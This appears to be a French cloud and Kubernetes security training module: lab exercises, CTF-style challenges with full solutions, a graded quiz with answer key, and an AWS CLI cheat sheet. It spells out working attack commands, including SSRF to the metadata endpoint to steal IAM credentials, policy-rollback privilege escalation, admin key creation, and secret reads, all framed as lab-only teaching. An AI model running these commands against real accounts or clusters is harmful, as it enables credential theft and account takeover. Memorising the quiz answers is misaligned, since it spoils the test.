**Objectif.** Déployer un cluster **minikube** local, le scanner avec **kube-hunter**, créer un **RBAC trop permissif** volontaire, l'exploiter avec kubectl pour lire les secrets, puis nettoyer. Objectif pédagogique : comprendre comment un mauvais binding de rôle devient une compromission totale.

**Environnement.**
- Machine Linux avec **Docker** installé, **minikube** (`minikube version`) et **kubectl** (`kubectl version --client`).
- `kube-hunter` installé (pip : `pip install kube-hunter`, ou conteneur : `docker run -it --rm aquasec/kube-hunter`).
- Tout est local : aucun risque pour un environnement extérieur.

**Étapes.**

1. Démarre le cluster : `minikube start` (attends que tous les pods `kube-system` soient prêts).
2. Vérifie l'accès : `kubectl config current-context`, `kubectl get nodes`, `kubectl get pods -A`.
3. Lance **kube-hunter** en local et note les faiblesses détectées.
4. Crée un **Secret** de test dans le namespace default.
5. Vérifie tes permissions RBAC avec `kubectl auth can-i --list`.
6. Crée un **ServiceAccount** `attaquant` et attache-lui le ClusterRole `cluster-admin` via un `ClusterRoleBinding`.
7. Récupère le jeton du ServiceAccount, puis appelle l'API server avec ce jeton pour lire le secret.
8. Nettoyage complet : `kubectl delete ...` puis `minikube delete`.

**Indices.**

- Indice 1 : `kubectl create secret generic test-secret --from-literal=password=CyberAcademy` crée le secret ; pour le relire : `kubectl get secret test-secret -o jsonpath='{.data}'`.
- Indice 2 : le binding se crée en une ligne : `kubectl create clusterrolebinding attaquant-admin --clusterrole=cluster-admin --serviceaccount=default:attaquant`.
- Indice 3 : le jeton du SA se récupère avec `kubectl create token attaquant` (kubectl ≥ 1.24) ; on appelle ensuite l'API : `curl -k -H "Authorization: Bearer $TOKEN" https://<IP_API_SERVER>:6443/api/v1/namespaces/default/secrets`.

**Correction.**

```bash
# 1. Cluster local
minikube start

# 2. État du cluster
kubectl get nodes
kubectl get pods -A

# 3. Scan de posture
kube-hunter
#   -> constate la config par défaut (kube-apiserver, RBAC en place)

# 4. Un secret de test
kubectl create secret generic test-secret --from-literal=password=CyberAcademy

# 5. Mes permissions
kubectl auth can-i --list

# 6. La mauvaise config volontaire : SA + cluster-admin
kubectl create serviceaccount attaquant
kubectl create clusterrolebinding attaquant-admin \
  --clusterrole=cluster-admin --serviceaccount=default:attaquant

# 7. Exploitation : jeton + lecture du secret via l'API
TOKEN=$(kubectl create token attaquant)
kubectl get secret test-secret -o jsonpath='{.data}'
#   base64 -> décoder
echo "cGFzc3dvcmQ6Q3liZXJBY2FkZW15..." | base64 -d

# 8. Nettoyage
kubectl delete clusterrolebinding attaquant-admin
kubectl delete serviceaccount attaquant
kubectl delete secret test-secret
minikube delete
```

**Explications.** Le cluster minikube de base a un RBAC raisonnable : `kube-hunter` ne trouve pas de faille grave. Mais dès qu'on ajoute un `ClusterRoleBinding` qui lie un ServiceAccount à `cluster-admin`, **n'importe quel pod utilisant ce ServiceAccount devient administrateur du cluster** : il peut lire tous les secrets, créer des pods privilégiés, monter des volumes hôte. La preuve ici : avec le jeton du SA, la requête API `.../secrets` renvoie le secret en base64. Leçon : le RBAC ne se mesure pas « rôle par rôle », mais **binding par binding** — un seul mauvais lien suffit. C'est la faille que les attaquants recherchent en premier dans un cluster compromis.

---

## Mini Challenges

> ⚠️ **Légal** — Les trois défis se jouent sur des environnements dédiés : les buckets publics de test du labo Flaws.cloud, et un scénario CloudGoat déployé dans **ton propre compte sandbox** (jamais le compte principal). Aucune cible réelle, aucun compte professionnel.

---

### Challenge 1 — Facile : trouver le bucket public

**Objectif.** Sur le domaine de test du labo Flaws.cloud (niveau 2), tu dois découvrir un bucket S3 **public** qui ne devrait pas l'être, et y lire un fichier qui n'est pas destiné au public. Le labo te donne une URL de départ ; le bucket est un **sous-domaine** de `flaws.cloud`.

**Énoncé.** Tu as l'URL `http://level2-...flaws.cloud/`. Ta mission : trouver le nom exact du bucket S3 derrière cette URL, le lister anonymement, et lire le fichier qui contient l'indice suivant.

**Indices.**
- Indice 1 : l'URL d'un site hébergé sur S3 ressemble souvent au nom du bucket (`BUCKET.s3.amazonaws.com` ou `http://BUCKET`). Le nom du bucket du niveau 2 apparaît dans l'URL elle-même.
- Indice 2 : une fois le bucket identifié, utilise `aws s3 ls s3://NOM --no-sign-request` pour le lister.
- Indice 3 : le bucket a une **bucket policy** qui autorise la lecture publique d'un seul objet. Compare ce qui est listable et ce qui est lisible : le fichier `secret` est accessible via `curl http://NOM_SECRET`.

**Correction.**

```bash
# Le nom du bucket apparaît dans l'URL du niveau 2
#   http://level2-c8b217a33d1f2ce5f8f5a2e2f3d4...flaws.cloud
# C'est le nom du bucket. Listons-le anonymement :
aws s3 ls s3://level2-c8b217a33d1f2ce5f8f5a2e2f3d4...flaws.cloud --no-sign-request
# On voit une page HTML et des objets "secret"
# Lisons l'objet secret :
curl -s http://level2-c8b217a33d1f2ce5f8f5a2e2f3d4...flaws.cloud/secret-...html
```

**Explication.** Le sous-domaine S3 est un bucket à part entière. Sa **bucket policy** n'autorise la lecture que du fichier de départ (d'où l'erreur si tu essaies de lire les autres objets) — mais le **listage** anonyme reste possible, ce qui révèle l'existence du secret. La misconfiguration ici n'est pas « tout public », c'est un **déséquilibre entre ListBucket et GetObject** : tu vois la liste, et un objet est lisible. C'est exactement le genre de finesse que Prowler/ScoutSuite cherchent (`s3_bucket_list_and_read`).

---

### Challenge 2 — Moyen : exploiter un SSRF pour récupérer des credentials temporaires

**Objectif.** Sur un labo (CloudGoat `ec2_ssrf`, ou une app web vulnérable que tu déploies dans ta sandbox), détourner une faille **SSRF** vers les métadonnées AWS pour récupérer les credentials IAM temporaires de l'instance, puis les utiliser pour atteindre un bucket.

**Énoncé.** L'application `http://labo-web/` a une fonctionnalité « vérifier l'image » qui récupère une URL. Un bucket privé `s3://flag-bucket/` contient le drapeau. L'instance EC2 qui héberge l'app a un role IAM doté de `s3:GetObject` sur ce bucket.

**Indices.**
- Indice 1 : teste d'abord la fonctionnalité avec une URL connue (`http://exemple.com`) pour confirmer le SSRF, puis remplace-la par `http://169.254.169.254/latest/meta-data/`.
- Indice 2 : le chemin des credentials est `.../latest/meta-data/iam/security-credentials/` puis `.../<nom-du-role>` — le JSON contient `AccessKeyId`, `SecretAccessKey`, `Token`.
- Indice 3 : charge ces trois valeurs dans l'environnement (`export AWS_ACCESS_KEY_ID=...`), vérifie avec `aws sts get-caller-identity`, puis `aws s3 ls s3://flag-bucket/` et lis le drapeau.

**Correction.**

```bash
# 1. Confirmer le SSRF
curl "http://labo-web/verifier-image?url=http://exemple.com"

# 2. Explorer les métadonnées
curl "http://labo-web/verifier-image?url=http://169.254.169.254/latest/meta-data/"
curl "http://labo-web/verifier-image?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
curl "http://labo-web/verifier-image?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<role>"

# 3. Charger les credentials et atteindre le bucket
export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
aws sts get-caller-identity
aws s3 ls s3://flag-bucket/
aws s3 cp s3://flag-bucket/flag.txt -
```

**Explication.** Le SSRF (niveaux 4-5) devient une faille critique cloud : l'app fait la requête **au nom du serveur**, et le serveur a accès à ses propres métadonnées. Le role de l'instance est un « instance profile » : ses credentials temporaires sont servis par l'endpoint. Avec ces credentials, tu es le role : ici, lecture du bucket du drapeau. Si le role avait été minimaliste (juste `s3:GetObject` sur un autre bucket), l'impact aurait été nul. La défense (côté labo) : IMDSv2 + filtre d'URL sortant + least privilege.

---

### Challenge 3 — Difficile : escalader des privilèges IAM dans un labo CloudGoat

**Objectif.** Dans le scénario **CloudGoat `iam_privesc_by_rollback`** (déployé dans ton compte sandbox), partant d'un compte IAM minimaliste, utiliser une technique d'escalade IAM pour devenir administrateur et « capturer » le drapeau (un accès aux ressources du scénario).

**Énoncé.** Le scénario te fournit des credentials IAM avec une permission précise sur une **policy inline**. Le role cible `cg-...` a une politique dont une **ancienne version** était très permissive. Deviens administrateur via la technique du « rollback de version de politique ».

**Indices.**
- Indice 1 : déploie le scénario et affiche les credentials fournis : `./cloudgoat.py create iam_privesc_by_rollback` puis `./cloudgoat.py start iam_privesc_by_rollback`. Configure-les avec `aws configure --profile cg`.
- Indice 2 : avec `aws iam list-policy-versions --policy-arn <arn>` et `aws iam get-policy-version --version-id v1`, tu découvres qu'une version plus ancienne de la politique contient des droits élargis (ex. `iam:CreateAccessKey`, voire `*`).
- Indice 3 : `aws iam set-default-policy-version --policy-arn <arn> --version-id v1` bascule la version par défaut. Puis vérifie tes nouveaux droits : `aws sts get-caller-identity` (toujours toi), et teste par exemple `aws iam create-access-key --user-name <le user admin>` ou l'accès au bucket du drapeau.
- Indice 4 : pour explorer, utilise Pacu : `pacu`, `set_keys` avec le profil `cg`, puis `exec iam__privesc_scan` : il détecte `iam:CreatePolicyVersion`/`SetDefaultPolicyVersion` et t'indique la technique.

**Correction.**

```bash
# 1. Déployer et obtenir les credentials (compte sandbox dédié)
./cloudgoat.py create iam_privesc_by_rollback
./cloudgoat.py start iam_privesc_by_rollback
aws configure --profile cg   # renseigner AccessKey/Secret/Token fournis

# 2. Explorer : qui suis-je, quelle politique ?
aws --profile cg sts get-caller-identity
aws --profile cg iam list-policies --scope Local
# On identifie la policy du role cible et ses versions
aws --profile cg iam list-policy-versions --policy-arn arn:aws:iam::<compte>:policy/<policy>
aws --profile cg iam get-policy-version --policy-arn arn:aws:iam::<compte>:policy/<policy> --version-id v1
# v1 contient des droits élargis (par ex. iam:CreateAccessKey, ou pire)

# 3. Basculer la version par défaut
aws --profile cg iam set-default-policy-version \
  --policy-arn arn:aws:iam::<compte>:policy/<policy> --version-id v1

# 4. Prouver l'escalade
aws --profile cg sts get-caller-identity     # toujours le même user...
aws --profile cg iam create-access-key --user-name <user-admin>  # ...mais avec des droits nouveaux
# Ou : lire le drapeau du scénario (bucket S3 ou Secret Manager selon le scénario)

# 5. Nettoyage
./cloudgoat.py destroy iam_privesc_by_rollback
```

**Explication.** C'est la technique « CreatePolicyVersion + SetDefaultPolicyVersion » (documentée par Rhino Security Labs) : la permission de **créer une version de politique** et de **la définir comme version par défaut** permet d'écraser la politique effective d'un user/role par une version (ancienne ou réécrite) très permissive. Le scénario CloudGoat a volontairement laissé une version v1 admin dans l'historique. L'escalade ne change pas ton identité (`get-caller-identity` affiche le même ARN) : elle change **tes permissions effectives**. C'est pourquoi les audits IAM (Prowler, Access Analyzer) surveillent ces deux permissions comme le lait sur le feu.

---

## Quiz

> ⚠️ **Légal** — Les questions du quiz portent sur des techniques à utiliser **uniquement** dans des environnements autorisés (labos, comptes sandbox, clusters locaux). La validation du quiz (≥ 80 %) ne change rien au cadre légal : c'est le scope qui fait la légalité, pas la réussite.

### a) 20 QCM — corrigés et expliqués

1. **Que signifie IaaS ?**
   - ☐ Infrastructure as a System
   - ☐ Internet as a Service
   - ✅ Infrastructure as a Service
   - ☐ Infrastructure and Administration Service
   - ✅ *Explication :* le client loue l'infrastructure brute (machines, réseau, stockage) et gère l'OS et les applications. C'est le modèle EC2/VM/Compute Engine.

2. **Dans le modèle de responsabilité partagée, qui est responsable de la configuration des buckets S3 ?**
   - ✅ Le client
   - ☐ Le fournisseur (AWS)
   - ☐ Personne
   - ☐ Les deux à 50 %
   - ✅ *Explication :* le fournisseur sécurise l'infrastructure ; la **configuration** (policy du bucket, ACL, accès) est une responsabilité client. La majorité des brèches viennent de là.

3. **Qu'est-ce qu'une Availability Zone (AZ) ?**
   - ☐ Une région géographique
   - ✅ Un datacenter (ou groupe de datacenters) isolé dans une région
   - ☐ Un type d'instance EC2
   - ☐ Un bucket S3 redondant
   - ✅ *Explication :* une région contient plusieurs AZ isolées (indépendantes en électricité/réseau) pour la haute disponibilité.

4. **À quoi sert IAM ?**
   - ☐ À héberger des images Docker
   - ✅ À gérer les identités et les autorisations (qui peut faire quoi)
   - ☐ À équilibrer la charge entre serveurs
   - ☐ À chiffrer les données au repos
   - ✅ *Explication :* IAM = Identity and Access Management : users, groups, roles, policies. Tout accès API passe par l'évaluation IAM.

5. **Une policy AWS contenant `"Action": "*"` et `"Resource": "*"` :**
   - ☐ Est recommandée pour les développeurs
   - ✅ Donne tous les droits sur toutes les ressources (équivalent admin)
   - ☐ N'autorise que la lecture
   - ☐ Est automatiquement bloquée par AWS
   - ✅ *Explication :* c'est l'erreur classique « trop large » qui permet toute escalade. Le principe correct est le **least privilege**.

6. **Quelle adresse IP correspond aux métadonnées des instances AWS ?**
   - ☐ 127.0.0.1
   - ✅ 169.254.169.254
   - ☐ 10.0.0.1
   - ☐ 192.168.1.1
   - ✅ *Explication :* `169.254.169.254` est l'adresse de lien local des métadonnées cloud, accessible uniquement depuis l'instance. Azure et GCP l'utilisent aussi (avec des en-têtes différents).

7. **Qu'est-ce que le SSRF dans le contexte cloud ?**
   - ☐ Un scanner de buckets
   - ✅ Une faille où l'application fait des requêtes HTTP vers des URLs choisies par l'attaquant
   - ☐ Un service de gestion des secrets
   - ☐ Un pare-feu cloud
   - ✅ *Explication :* le SSRF (Server-Side Request Forgery) permet de faire requêter le serveur vers des adresses internes comme l'endpoint de métadonnées → vol de credentials.

8. **Quelle commande liste les objets d'un bucket S3 sans utiliser de credentials ?**
   - ✅ `aws s3 ls s3://NOM --no-sign-request`
   - ☐ `aws s3 list-buckets`
   - ☐ `curl http://169.254.169.254`
   - ☐ `aws sts get-caller-identity`
   - ✅ *Explication :* `--no-sign-request` envoie la requête sans signature : si le bucket est public, elle réussit. C'est le test du bucket public.

9. **Un bucket S3 est-il privé par défaut ?**
   - ✅ Oui, mais une seule erreur de config (policy `Principal: "*"` ou ACL publique) le rend public
   - ☐ Non, il est public par défaut
   - ☐ Il est toujours public
   - ☐ Il est privé mais illisible par le propriétaire
   - ✅ *Explication :* le défaut est privé, mais la moindre misconfiguration (policy mal copiée, ACL publique) l'expose. D'où le Block Public Access et les audits.

10. **IMDSv2 (AWS) a été introduit pour :**
    - ☐ Accélérer les requêtes
    - ✅ Exiger un jeton (token) avant de lire les métadonnées
    - ☐ Supprimer l'endpoint 169.254.169.254
    - ☐ Chiffrer les buckets
    - ✅ *Explication :* en exigeant un jeton via `PUT /latest/api/token`, IMDSv2 bloque la majorité des SSRF simples vers les métadonnées.

11. **Quel outil est un framework de post-exploitation cloud (modules d'escalade IAM, backdoors) ?**
    - ☐ Prowler
    - ✅ Pacu
    - ☐ ScoutSuite
    - ☐ trivy
    - ✅ *Explication :* Pacu (Rhino Security Labs) contient des modules comme `iam__privesc_scan`. Prowler et ScoutSuite auditeront la posture ; trivy scanne des images.

12. **Prowler est utilisé pour :**
    - ✅ Auditer la posture de sécurité d'un compte cloud (checks CIS)
    - ☐ Bruteforcer des mots de passe
    - ☐ Déployer des clusters Kubernetes
    - ☐ Générer des SBOM
    - ✅ *Explication :* Prowler lance des centaines de checks (S3, IAM, CloudTrail…) et sort un rapport PASS/FAIL. C'est un outil CSPM.

13. **Dans Kubernetes, quel composant est « LA porte d'entrée » du cluster ?**
    - ☐ etcd
    - ✅ kube-apiserver
    - ☐ kubelet
    - ☐ Docker
    - ✅ *Explication :* toutes les commandes kubectl passent par l'API server (port 6443). S'il est exposé et mal protégé, le cluster est à nu.

14. **Un Secret Kubernetes est :**
    - ✅ Simplement encodé en base64, PAS chiffré par défaut
    - ☐ Chiffré par défaut
    - ☐ Impossible à lire sans clé maîtresse
    - ☐ Toujours protégé par Vault
    - ✅ *Explication :* `kubectl get secret X -o jsonpath='{.data}'` donne du base64, décodable en une commande. Un RBAC laxiste = secrets lisibles.

15. **Qu'est-ce qu'un ClusterRoleBinding dans Kubernetes ?**
    - ✅ Le lien entre un sujet (user, SA) et un ClusterRole sur tout le cluster
    - ☐ Un secret chiffré
    - ☐ Un type de pod
    - ☐ Un pare-feu de cluster
    - ✅ *Explication :* lier un ServiceAccount à `cluster-admin` via un ClusterRoleBinding donne les droits admin au cluster entier. Un seul binding permissif suffit à tout compromettre.

16. **Quel montage rend un conteneur Docker capable de contrôler le démon hôte ?**
    - ✅ `/var/run/docker.sock`
    - ☐ `/etc/passwd`
    - ☐ `/tmp`
    - ☐ `/var/log`
    - ✅ *Explication :* le socket Docker est le canal vers le démon. Monté dans un conteneur, il permet de créer un conteneur `--privileged -v /:/host` et de lire l'hôte (container escape).

17. **Qu'est-ce qu'un SBOM ?**
    - ☐ Un outil de scan de réseau
    - ✅ Une liste formelle des composants d'un logiciel (Software Bill of Materials)
    - ☐ Un type de bucket
    - ☐ Un protocole d'authentification
    - ✅ *Explication :* le SBOM liste paquets, versions et dépendances. On le génère avec `syft` et on peut le rescanner avec `grype`/`trivy` pour traquer les CVE.

18. **Quelle commande scannerait une image Docker pour des vulnérabilités critiques et échouerait (code ≠ 0) si trouvées ?**
    - ✅ `trivy image --severity CRITICAL --exit-code 1 monimage`
    - ☐ `docker ps --vulns`
    - ☐ `aws s3 ls`
    - ☐ `kube-hunter --image`
    - ✅ *Explication :* `--exit-code 1` transforme le scan en « porte de qualité » pour le CI/CD : un build avec une CVE critique est bloqué.

19. **Quel est l'équivalent Azure du service AWS CloudTrail ?**
    - ☐ Azure SQL
    - ✅ Azure Activity Log
    - ☐ Azure Blob Storage
    - ☐ Azure Functions
    - ✅ *Explication :* CloudTrail (AWS) = journal des API ; Azure Activity Log fait de même ; GCP a Cloud Audit Logs. Voir le tableau d'équivalences.

20. **Un secret exposé sur GitHub :**
    - ☐ Est sans danger si le commit est supprimé
    - ✅ Doit être révoqué immédiatement, même si le commit est supprimé
    - ☐ Peut être ignoré car GitHub scanne tout
    - ☐ Ne concerne que les mots de passe de bases de données
    - ✅ *Explication :* un secret dans l'historique git (ou dans un fork) est considéré comme compromis. On **révoque** (rotation/retrait de la clé), puis on nettoie, puis on prévient.

---

### b) 10 Vrai/Faux — justifiés

1. **Le fournisseur cloud est responsable des mots de passe des bases de données de son client.**
   ❌ **Faux.** Les données et leurs accès sont la responsabilité du client (modèle de responsabilité partagée). Le fournisseur ne gère ni tes mots de passe ni ta config.

2. **Un bucket S3 est public par défaut.**
   ❌ **Faux.** Il est privé par défaut. C'est une misconfiguration (policy `Principal: "*"`, ACL publique) qui le rend public.

3. **La commande `aws s3 ls s3://bucket --no-sign-request` ne fonctionne que sur les buckets publics.**
   ✅ **Vrai.** Sans signature, seuls les buckets publics répondent : c'est le test universel d'exposition.

4. **IMDSv2 supprime définitivement le risque SSRF vers les métadonnées.**
   ❌ **Faux.** Il bloque la plupart des SSRF simples (GET direct), mais pas tous (certaines applications peuvent faire des PUT et passer des en-têtes), et les autres fournisseurs ont leurs propres règles. Le filtrage d'URL sortant reste indispensable.

5. **Un Role IAM donne des credentials temporaires via STS.**
   ✅ **Vrai.** Assumer un role (`sts:AssumeRole`) délivre des credentials temporaires (AccessKeyId + SecretAccessKey + Token), notamment aux instances EC2 via les métadonnées.

6. **Dans Kubernetes, un Secret est chiffré par défaut.**
   ❌ **Faux.** Il est encodé en base64, lisible par quiconque a la permission `get secrets`. Le chiffrement d'etcd doit être activé, et mieux : utiliser un gestionnaire externe (Vault).

7. **Un conteneur lancé avec `--privileged` dispose de bien plus de capacités qu'un conteneur normal.**
   ✅ **Vrai.** `--privileged` donne pratiquement tous les droits (dont SYS_ADMIN) et facilite l'évasion vers l'hôte.

8. **Prowler ne peut scanner que AWS.**
   ❌ **Faux.** Prowler (comme ScoutSuite) scanne AWS, Azure et GCP. C'est un outil CSPM multi-cloud.

9. **`trivy image` analyse les dépendances du code applicatif et les paquets du système dans une image.**
   ✅ **Vrai.** trivy construit la liste des paquets OS et des dépendances (npm, PyPI, etc.) de l'image et la compare à sa base de CVE.

10. **Le SSRF vers les métadonnées est une technique réservée à AWS.**
    ❌ **Faux.** Azure (en-tête `Metadata: true`) et GCP (en-tête `Metadata-Flavor: Google`, nom `metadata.google.internal`) exposent aussi leurs métadonnées, y compris des jetons d'accès.

---

### c) 10 questions ouvertes — corrigées

1. **Explique le modèle de responsabilité partagée en une phrase, avec un exemple.**
   ✅ Le fournisseur sécurise l'infrastructure du cloud (datacenters, serveurs, réseau), le client sécurise ce qu'il configure et stocke dedans ; par exemple, AWS protège le datacenter mais pas la bucket policy d'un S3 mal configuré.

2. **Pourquoi `"Action": "*"` dans une politique IAM est-elle dangereuse ?**
   ✅ Elle autorise toutes les actions sur toutes les ressources : c'est un accès admin. Combinée à des permissions auto-renforçantes (ex. `iam:AttachUserPolicy`), elle permet une escalade de privilèges immédiate, et elle rend l'audit impossible (impossible de savoir « qui fait quoi »).

3. **Décris la chaîne d'attaque SSRF → métadonnées en 4 étapes.**
   ✅ (1) L'app web vulnérable accepte une URL arbitraire (SSRF) ; (2) on lui demande `http://169.254.169.254/latest/meta-data/` ; (3) on navigue vers `iam/security-credentials/<role>` et on récupère les credentials temporaires ; (4) on les utilise avec l'AWS CLI (`aws sts get-caller-identity`, `aws s3 ls`) pour agir en tant que le role de l'instance.

4. **Quelle est la différence entre une Role et un RoleBinding Kubernetes ?**
   ✅ Le **Role** définit les permissions sur un namespace ; le **RoleBinding** fait le **lien** entre un sujet (user/ServiceAccount) et un Role. On peut avoir un Role très restrictif mais un binding permissif — c'est le binding qu'il faut surveiller.

5. **Pourquoi « supprimer un commit contenant un secret » ne suffit-il pas ?**
   ✅ Le secret reste dans l'historique git (`git log`, `git reflog`), dans les clones et forks existants, et il a pu être scanné par des bots en quelques minutes. La seule réponse correcte est la **révocation** (rotation de la clé), puis le nettoyage de l'historique.

6. **Cite trois différences de sécurité entre EC2 (IaaS) et Lambda (serverless).**
   ✅ (1) EC2 : tu gères l'OS et les patches ; Lambda : le fournisseur gère le runtime. (2) EC2 : le role est attaché à l'instance (métadonnées) ; Lambda : le role d'exécution est propre à la fonction. (3) EC2 : mise à l'échelle de machines ; Lambda : pas de serveur, mais dépendances et variables d'environnement à surveiller (secrets, CVE).

7. **Comment vérifier rapidement qu'une clé AWS trouvée est toujours valide et à qui elle appartient ?**
   ✅ `export AWS_ACCESS_KEY_ID=...; export AWS_SECRET_ACCESS_KEY=...` puis `aws sts get-caller-identity` (ou `aws iam get-user`). Si la réponse contient un ARN (Account), la clé est valide et on connaît son propriétaire. Ne jamais le faire hors labo.

8. **Qu'est-ce que le Block Public Access sur S3 et quand l'utiliser ?**
   ✅ C'est un verrou de sécurité qui **interdit tout accès public** à un bucket, quelle que soit la policy ou l'ACL écrite. À activer par défaut sur tous les buckets, sauf ceux explicitement destinés à héberger du contenu public (et alors on restreint au strict nécessaire).

9. **Pourquoi les images Docker doivent-elles être scannées à chaque build ?**
   ✅ Parce qu'elles contiennent des paquets et des dépendances qui accumulent des CVE entre deux builds ; une image non scannée peut être déployée avec des vulnérabilités critiques connues. Le scan dans le CI (`trivy ... --exit-code 1`) bloque le déploiement avant qu'il n'arrive en production.

10. **Que doit contenir un rapport de pentest cloud ?**
    ✅ Le contexte (périmètre autorisé, dates), la méthodologie, l'inventaire (comptes, régions, services), les **preuves** (commandes et sorties, ARN des ressources), la chronologie, la cause racine, l'impact, et les **recommandations classées par priorité** (least privilege, Block Public Access, IMDSv2, CSPM, scan CI/CD).

---

### d) 5 exercices pratiques — corrigés

**Exercice 1 — Écrire une politique IAM « least privilege ».**

Une application Lambda doit uniquement **lire** les objets du bucket `acme-documents` (pas le lister entier, pas écrire) et **écrire** des logs dans CloudWatch Logs (`logs:CreateLogStream`, `logs:PutLogEvents`). Écris la politique.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "s3:GetObject",
      "Resource": "arn:aws:s3:::acme-documents/*"
    },
    {
      "Effect": "Allow",
      "Action": ["logs:CreateLogStream", "logs:PutLogEvents"],
      "Resource": "arn:aws:logs:*:*:log-group:/aws/lambda/*"
    }
  ]
}
```

✅ *Explication :* chaque Action est **minimale** (`GetObject`, pas `s3:*`), chaque Resource est **restreinte** (`acme-documents/*`, pas `*`), et on ne donne que ce dont la fonction a besoin. Jamais d'`Action: "*"`.

**Exercice 2 — Choisir la défense adaptée.**

Associe chaque incident à la défense la plus adaptée :
- a) Un SSRF dans une app web risque de toucher les métadonnées.
- b) Un bucket de prod est devenu public.
- c) Une image Docker de base est pleine de CVE.
- d) Un rôle IAM permet `iam:AttachUserPolicy`.

Réponses : a) **IMDSv2 + filtrage des URLs sortantes** (bloquer `169.254.169.254`) ; b) **Block Public Access + audit CSPM** (Prowler/Security Hub) + suppression de la policy fautive ; c) **scan CI/CD** (trivy/grype avec `--exit-code 1`) + mise à jour/épinglage de l'image de base ; d) **least privilege + permission boundary/SCP** pour retirer/plafonner les permissions auto-renforçantes.

**Exercice 3 — Analyser une configuration.**

Voici la bucket policy d'un bucket `acme-uploads` :
```json
{
  "Version": "2012-10-17",
  "Statement": [
    { "Effect": "Allow", "Principal": "*", "Action": ["s3:GetObject", "s3:PutObject"], "Resource": "arn:aws:s3:::acme-uploads/*" }
  ]
}
```
a) Que permet-elle ? b) Quel est le risque ? c) Comment la corriger si le bucket doit rester privé ?

✅ a) N'importe qui sur Internet peut **lire** (GetObject) **et écrire** (PutObject) n'importe quel objet du bucket. b) C'est un bucket totalement public, en lecture **et écriture** : vol de données, dépôt de fichiers illégitimes, rançongiciel (chiffrement des objets), coûts, et compromission de confiance. c) Supprimer la policy (`aws s3api delete-bucket-policy`), activer **Block Public Access**, et mettre une policy privée (accès seulement aux rôles concernés). Si un téléversement public était nécessaire, le faire via une API authentifiée, jamais par un bucket en écriture anonyme.

**Exercice 4 — Construire un flux de détection.**

Décris la chaîne d'outils qui détecte « un compte compromis qui crée des instances de crypto-mining ». ✅ 1) **CloudTrail** enregistre l'événement `RunInstances`. 2) **GuardDuty** émet un finding (ex. `CryptoCurrency:EC2/BitcoinTool.B!DNS`). 3) Le **SIEM** (Sentinel/Splunk/Elastic) reçoit l'alerte et corrèle avec d'autres signes (IP inhabituelle, heure, nouveaux users). 4) Le **SOC** applique le playbook : isolation de l'instance, révocation des clés, revue IAM. 5) **Prowler/Security Hub** confirme la posture après remédiation.

**Exercice 5 — Analyse post-incident avec CloudTrail.**

Une clé IAM a créé un bucket puis l'a rempli. Comment retrouver l'historique exact avec CloudTrail ? ✅ `aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=CreateBucket`, puis pour les accès : `AttributeKey=Username,AttributeValue=<user>` ou `AttributeKey=AccessKeyId,AttributeValue=<AKIA...>`. On reconstruit la timeline : `CreateBucket`, `PutObject`, `GetObject`…, avec les IP sources (`SourceIpAddress`) et les timestamps. On vérifie ensuite si des `CreateAccessKey` ont été émis (compte backdooré).

---

## Cheat Sheet

> ⚠️ **Légal** — Cette fiche de commandes ne doit être utilisée que sur des environnements autorisés : labos (Flaws.cloud, CloudGoat), comptes sandbox, clusters locaux (minikube), images locales.

### AWS CLI — l'essentiel par service

| Service | Commande | Rôle |
| ------- | -------- | ---- |
| Général | `aws configure --profile X` | Configurer des credentials pour un profil |
| Général | `aws sts get-caller-identity` | Qui suis-je ? (ARN du compte/role) |
| S3 | `aws s3 ls` | Lister les buckets du compte |
| S3 | `aws s3 ls s3://NOM --no-sign-request` | Tester l'accès anonyme (bucket public ?) |
| S3 | `aws s3api get-bucket-policy-status --bucket NOM` | État officiel « public » (IsPublic) |
| S3 | `aws s3api get-bucket-policy --bucket NOM` | Lire la policy (la cause de l'exposition) |
| S3 | `aws s3api get-bucket-acl --bucket NOM` | Lire les ACL |
| S3 | `aws s3api put-public-access-block --bucket NOM --public-access-block-configuration BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true` | Bloquer tout accès public (remédiation) |
| S3 | `aws s3 cp s3://NOM/objet -` | Lire un objet vers stdout |
| IAM | `aws iam list-users` / `list-roles` / `list-groups` | Énumérer les identités |
| IAM | `aws iam list-attached-user-policies --user-name X` | Politiques d'un user |
| IAM | `aws iam get-policy-version --policy-arn A --version-id v1` | Lire une version de politique |
| IAM | `aws iam list-policy-versions --policy-arn A` | Versions d'une politique |
| IAM | `aws iam get-account-authorization-details` | Dump complet IAM du compte |
| IAM | `aws iam attach-user-policy --user-name X --policy-arn arn:aws:iam::aws:policy/AdministratorAccess` | Escalade (labo uniquement) |
| IAM | `aws iam create-access-key --user-name X` | Créer une clé pour X |
| STS | `aws sts assume-role --role-arn arn:aws:iam::C:role/R --role-session-name test` | Assumer un role |
| EC2 | `aws ec2 describe-instances --query "Reservations[*].Instances[*].[InstanceId,State.Name,PublicIpAddress]"` | Lister les instances |
| Lambda | `aws lambda list-functions` | Lister les fonctions |
| Lambda | `aws lambda get-function-configuration --function-name F --query Environment.Variables` | Variables d'environnement (attention secrets) |
| CloudTrail | `aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=CreateAccessKey` | Rechercher un événement |
| GuardDuty | `aws guardduty list-findings --detector-id ID` | Lister les alertes |
| SSM | `aws ssm get-parameter --name /prod/db/password --with-decryption` | Lire un paramètre secret |
| Secrets | `aws secretsmanager get-secret-value --secret-id NOM` | Lire un secret |
| Metadata | `curl http://169.254.169.254/latest/meta-data/` | Métadonnées AWS (IMDSv1) |
| Metadata | `TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600") && curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/` | Métadonnées AWS (IMDSv2) |

### Équivalences Azure / GCP

| Tâche | AWS | Azure | GCP |
| ----- | --- | ----- | --- |
| Qui suis-je | `aws sts get-caller-identity` | `az account show` | `gcloud auth list` |
| Lister les machines | `aws ec2 describe-instances` | `az vm list` | `gcloud compute instances list` |
| Lister le stockage | `aws s3 ls` | `az storage account list` | `gsutil ls` / `gcloud storage ls` |
